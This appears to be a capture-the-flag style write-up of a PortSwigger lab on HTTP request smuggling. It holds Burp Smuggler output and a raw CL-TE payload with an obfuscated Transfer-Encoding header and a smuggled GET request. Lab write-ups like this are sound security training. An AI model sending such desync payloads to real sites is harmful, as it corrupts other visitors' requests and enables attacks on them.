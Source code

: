 ### HTTP request smuggling
#### Basic information
+ HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the <b>Content-Length header (CL) and the Transfer-Encoding header(TE)</b>. 
The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data.<br>
Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.<br>
If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) <b>Transfer-Encoding header</b>, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. The following scenarios are possible:
1. CL-TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header
1. TE-CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
1. TE-TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way
#### Lab enviroment
In the lab the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes <b>alert(1)</b><br><i>Note: you must have HTTP Request Smuggler extention installed in Burp</i>
#### Steps
<i>Note 2: my lab ID will change during the following steps, so you could find some discrepancies between images and the source code</i>
First we need to verify if the application is vulnerable to HTTP request smuggling (AKA desync attack), so lets proceed to analyze the request for a comment subsmission. 
First verify that the HTPP request smuggler extension is installed: click to Extension (1), then verify that the Smuggler is listed (2), eventually go BApp Store (3) and proceed to the installation. I suggest to set the Output (4) to Save to a file
<br>![img](./img/64.png)<br>
In the output we will get the report with the results of the externsion's execution.

Now lets proceed to use the HTTP Request Smuggler, to do that right-click into the Request body and choose Smuggle probe (click Ok in the configuration windows that appears, if you don't see the OK button just hit enter):
-- 65 --
Wait a couple of minute (or tail the file) to get the result that indicates that the application could be prone to CL-TE desyn vulnerability:
```
Updating active thread pool size to 8
Loop 0
Queued 1 attacks from 1 requests in 0 seconds
Unexpected report with response
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.<br/> 
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. 
<br/>To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. 
Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/>
...
```
As suggested we should be able to manually test the vulnerability using a payload provided in the report. Scrolling the result we can choose the following:
```
...
POST /post/comment HTTP/1.1
Host: 0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Cookie: session=mPoMTxbv2et0e1oSHkM0znnd5e8HAxOZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 353
Origin: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Referer: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

d2
csrf=mehaXubNbgLch7KliIBrrnEJX8LHness&userAgent=Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%3B+rv%3A108.0%29+Gecko%2F20100101+Firefox%2F108.0&postId=4&comment=ciao&name=zinz&email=zinz%40libero.it&website=
0

GET /?x=5u0ddwptlhzwzk0kkdjae3bt9kfc31/0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net HTTP/1.1
Host: 52.16.21.24
Foo: x
...
```
Copy and paste the request into Reapeter, morover I modified the GET as follows (we have then to adjust the Content-Length in accords as shown in the next image):
```
GET /invalid_URL HTTP/1.1
Foo: x
```
Then the above two lines of the request should be treated by the back-end server as belonging to the next valid request that is received. Since this request contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it. Submitting the modified request we can notice that the server respond correctly with a redirect (1), but following the redirection (2), since our GET instruction was prepended to the subsequent request, will cause a 404 error trying to reach the invalid url
-- 66 --
Following the redirect:
-- 67 --



#### Reference
+ https://portswigger.net/web-security/request-smuggling
+ https://portswigger.net/web-security/request-smuggling/finding
+ https://portswigger.net/web-security/request-smuggling/exploiting

